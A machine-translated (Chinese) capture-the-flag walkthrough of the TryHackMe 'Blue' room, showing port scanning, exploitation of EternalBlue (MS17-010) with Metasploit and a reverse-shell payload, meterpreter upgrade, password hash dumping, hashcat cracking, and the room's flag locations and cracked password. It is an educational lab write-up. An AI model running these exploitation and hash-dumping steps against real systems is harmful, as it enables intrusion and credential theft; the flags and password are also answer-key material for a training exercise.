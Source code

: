 # TryHackMe:蓝色

> 原文：<https://infosecwriteups.com/tryhackme-blue-5166cedadead?source=collection_archive---------5----------------------->

## 游戏攻略

大家好，这边请。希望你在屏幕这边做得很好。所以，让我们开始开发我们的房间。

另外，我为这个博客做了一个小缩略图，让我知道它是怎样的:)

![](img/e2367df0f26f21dff42c1935c14cf38d.png)

# 侦察:

在首字母，我想出口 IP，以节省时间 XD。以后你可以用$IP 来使用它

![](img/f951b2c939410f193e90e24cb250cb30.png)

那么，让我们从 rustscan 开始，它是一个查找开放端口的更快的工具:

`rustscan -a $IP | tee rustscan.txt`

| 'tee '用于保存文件

![](img/9643765558a857b6fed216cee8d073b2.png)

Rustscan 日志

现在我们有了开放端口，让我们从 Nmap 开始:

`nmap -A -Pn -oN nmap.txt $IP`

| `-A` 为所有，`-Pn`为无视乒，`-oN`为节约输出

![](img/9498ef72101d0fbae5143e182e56ae00.png)

Nmap 日志

现在我们可以看到 139 端口正在使用`Windows 7 Professional 7601 Service Pack 1 netbios-ssn`。经过一些搜索，它是脆弱的，这种利用是众所周知的

```
‘EternalBlue’ SMB Remote Code Execution (MS17–010)
```

# 获取外壳:

现在我们知道如何利用，那么我们还在等什么:

我曾经用 metasploit 来利用这一点。

`msfconsole -q`

| `-q`用于访问直接接口

现在搜索漏洞

![](img/232fd53eed16a9d4c983a66a90baa48b.png)

搜索漏洞

现在是时候使用 exploit 并为反向 shell 设置有效负载了。

`use 0`或`use exploit/windows/smb/ms17_010_eternalblue`

![](img/4a4c5e5815f182a7f5711b336d597da7.png)

设置有效载荷和`run / exploit`

![](img/df6d39be90bca0083f96d555e667a41d.png)

# Shell 升级:Meterpreter

`search shell_to_meterpreter`并使用它

`set SESSION 1`和`run`

![](img/4a4c5e5815f182a7f5711b336d597da7.png)

# 开裂:

![](img/23d383609b69c42c33ca71cf4133e8be.png)

让我们再开一次会

![](img/12d2b0233e5ce97ab78e4ed714a9ffc7.png)

我不知道为什么，但我的会议正在关闭，直到我得到第五届会议

通过`sessions -i <session ID>`进行评估

# 获取哈希转储:

从现在开始，截图将会有另一种外观，因为使用了终端而不是终端。

`run post/windows/gather/hashdump`

![](img/6f3ec94d088c5b9f75df7ac6d783b5a5.png)

Hashdump

使用 hashcat 破解它

```
hashcat --username -a 0 -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt
```

而我们得到了，乔恩的**密码:** `alqfna22`

# 标志:

国旗时间到了，哟！！

简单搜索一下🤷‍♂️，怎么会？让我们看看

`dir *.txt /s`

![](img/76b6d70260b322bc0ee593666275991d.png)

标志搜索 1

但是没有显示 2 号旗。让我们深入吧

```
dir flag* /s /p
```

![](img/73204c8464bada792a6b12d209c0537e.png)

标志搜索 2

```
flag1.txt C:\flag1.txt
flag2.txt C:\Windows\System32\config\flag2.txt
flag3.txt C:\Users\Jon\Documents\flag3.txt
```

现在我们已经成功地完成了 TryHackMe 的蓝色房间。

如果你已经走了这么远，那么请务必花时间提供反馈。❤将不胜感激

*   || [房间](https://tryhackme.com/room/blue) || [推特](https://twitter.com/namx05)| |[GitHub](https://github.com/namx05)| |[insta gram](https://instagram.com/naman5.6)| |